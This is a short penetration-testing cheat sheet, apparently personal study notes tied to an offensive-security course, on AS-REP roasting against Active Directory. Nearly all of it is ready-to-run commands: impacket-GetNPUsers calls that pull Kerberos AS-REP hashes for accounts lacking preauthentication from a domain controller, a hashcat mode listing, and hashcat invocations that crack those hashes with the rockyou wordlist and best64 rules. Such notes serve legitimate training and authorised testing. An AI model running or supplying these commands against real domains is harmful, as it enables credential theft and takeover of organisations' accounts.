 ```yaml
---
tags:
---
```

# GetNPUsers

Queries target domain for users with 'Do not require Kerberos preauthentication' enabled and export their TGTs for cracking ([AS-REP roasting](https://www.youtube.com/watch?v=EVdwnBFtUtQ))

## Capabilities

```bash
# Check a single user
impacket-GetNPUsers -dc-ip $IP -outputfile hashes.asreproast $DOMAIN/$USER

# Check a list of users
impacket-GetNPUsers -dc-ip $IP -usersfile users.txt -outputfile hashes.asreproast $DOMAIN/
```

Crack the hash in hashcat

```
kali@kali:~$ hashcat --help | grep -i "Kerberos"
  19600 | Kerberos 5, etype 17, TGS-REP                       | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                      | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                       | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                      | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth               | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                       | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                        | Network Protocol
```

```bash
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

.\hashcat.exe -m 18200 hashes\pen-200\hashes.asreproast wordlists\rockyou.txt -r rules\best64.rule --force
```
